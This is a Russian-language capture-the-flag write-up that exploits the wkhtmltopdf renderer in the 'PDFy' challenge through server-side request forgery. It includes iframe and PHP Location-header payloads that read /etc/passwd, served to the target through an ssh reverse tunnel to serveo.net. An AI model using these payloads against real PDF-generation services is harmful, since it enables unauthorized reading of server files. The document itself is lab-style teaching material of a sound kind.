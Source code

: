 # PDFy
ACHTUNG! много воды, мой первый райтап, на эмоциях

![image](https://github.com/Seven11Eleven/CTF-writeups/assets/120821293/c32887e3-3e3a-43d4-9046-dabc22135352)
Суть задачи в том, что нам дают возможность в форме ввода написать адрес сайта, который мы хотим превратить в .pdf файл.
Как говорит описание задачи нужно добиться утечки /etc/passwd.

![image](https://github.com/Seven11Eleven/CTF-writeups/assets/120821293/4a7c2d00-6ca9-427e-956e-c52083733196)
Войдя на страничку, видим форму ввода и предложение закинуть адрес любимого сайтика, чтобы увидеть его в pdf формате


Ввел https://google.com, получил свой pdf файл
![image](https://github.com/Seven11Eleven/CTF-writeups/assets/120821293/c16c4060-f834-4f12-8bea-94091820a66b)

Можно заметить, что страница выглядит не совсем привычно, будто бы отсутствуют стили, разметка где-то съезжает, если ввести другие страницы.

Если ввести пустоту, то выдаст ошибку 
```
{
    "level": "danger",
    "message": "Malformed url "
}
```
Если ввести проблемную ссылку, то выйдет ошибка
```
{
    "level": "error",
    "message": "There was an error: Error generating PDF: Command '['wkhtmltopdf', '--margin-top', '0', '--margin-right', '0', '--margin-bottom', '0', '--margin-left', '0', \"'https://45918e26a690bfbd996ba63814a8f24b.serveo.net/phppy.php?x=/etc/passwd'\", 'application/static/pdfs/b976b682d3a031d314791f89cf69.pdf']' returned non-zero exit status 1."
}
```
Можно обнаружить, что используется некий *'wkhtmltopdf'*.

Погуглив, можно узнать, что это тулза для генерации pdf файлов в веб проекте
![image](https://github.com/Seven11Eleven/CTF-writeups/assets/120821293/29709514-a5bc-4f7b-b387-b7210585b60f)


Погуглив 'wkhtmltopdf lfi' находим [уязвимости](https://www.virtuesecurity.com/kb/wkhtmltopdf-file-inclusion-vulnerability-2/) связанные с этим сервисом.

Предлагают следующий способ 
```
POST /api/v1/pdf_report HTTP/1.1
[..]
{“data”:”<div><p>Report Heading</p>[..]}


POST /api/v1/pdf_report HTTP/1.1
[..]
{“data”:”<div><p>Report Heading</p><iframe src=”file:///etc/passwd” height=”500” width=”500”>[..]}
```
интересная затея через html выводить содержимое file:///etc/passwd
<!-- P.S. я около двух дней еб#лся с этой задачей, а решение оказывается скрывается в одной строчке php-кода, считаю, что стоит показать все мои попытки решить задачу, в конце будет уже окончательное решение-->
попробуем реализовать это через webhook.site (очевидно, что сервис PDFy не сможет видеть localhost, поэтому придется прибегнуть к услугам сервисом туннелирования или даже поднять сервер и захостить)

![image](https://github.com/Seven11Eleven/CTF-writeups/assets/120821293/10b41c2a-292c-44f9-bcb7-f3c307e5a0c1)
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
    <h></h>
    <iframe src="file:///etc/passwd"></iframe>
<iframe src=file:///etc/passwd width=1000px height=1000px></iframe>
</head>
<body>
</body>
</html>
```

![image](https://github.com/Seven11Eleven/CTF-writeups/assets/120821293/302a8985-d05e-4038-bd0f-5e438e596778)
Наш вебхук теперь выглядит так, вместо пустоты должно выводиться содержимое /etc/passwd, у нас этого не видно, но в теории у Linux сервера, должно сработать и выведется список юзеров и пароли
...
Получаем свою ошибку
```
"message": "There was an error: Error generating PDF: Command '['wkhtmltopdf', '--margin-top', '0', '--margin-right', '0', '--margin-bottom', '0', '--margin-left', '0', 'https://webhook.site/54c5bd57-1beb-4a5a-a0fd-0c45b34768e9', 'application/static/pdfs/ccf716f26454114afcc36527723b.pdf']' returned non-zero exit status 1."
```

если убрать в Content type: text/html и поставить к примеру просто text/plain, то он это будет читать, ведь ему не придется рендерить html контент и js script

#ПОНЯТНО! вебхук нам в этом никак не поможет, придётся шаманить по своему

Воспользуемся сервисами туннелирования, СПОЙЛЕР ngrok нам не поможет, т.к как оказалось у них сменилась политика и теперь при переходе на страницу, нужно сперва подтвердить переход, а лишь потом получать уже содержимое страницы, это нам не подходит, т.к. сервис тупо будет возвращать нам пустую страницу(я на это и потратил день)
Воспользуемся бесплатным и не требующим установки сервисом serveo.net
Чтобы запустить в cmd вводим 
```
ssh -R 80:localhost:8000 serveo.net
```
после этого Сервео выдаст нам временную ссылку на сайт с нашим локалхостом, нужно её вставить в форму ввода и забрать флаг, но перед этим надо поднять этот самый локалхост на 8000 порту.

СПОЙЛЕР python fast api не лучший выбор, как оказалось есть еще одна [уязвимость](https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/) с php кодом
```
<?php header('location:file://'.$_REQUEST['x']); ?>
```
Поднимаем сервер на php
```
php -S localhost:8000
```
чтобы сработало, нужно в форму ввода отправить https://abc.serveo.net/<phpfilename>.php?x=/etc/passwd
...
опять не сработало, на этот раз браузер просто не дает нам это сделать![image](https://github.com/Seven11Eleven/CTF-writeups/assets/120821293/856d0b42-53dd-42df-a10f-86f9e82b998f)
выходит ошибка безопасности... сервис возвращает ошибку или пустую страницу, придется искать другой способ.

Я попытался сразу же видоизменить код и чтобы он сразу в заголовок вставлял Location:file:///etc/passwd
```
<?php
header("location: file:///etc/passwd");
// phpinfo();
?>
```
Финальный код, который срабатывает на сервере, НО НЕ У НАС, поэтому надо сразу заливать в сервис PDFy, у нас будет выходить та же ошибка.

![image](https://github.com/Seven11Eleven/CTF-writeups/assets/120821293/22e743de-1158-42be-9896-2319f1d6d62b)
у нас получилось, мы получили флаг и теперь можем сабмитнуть его
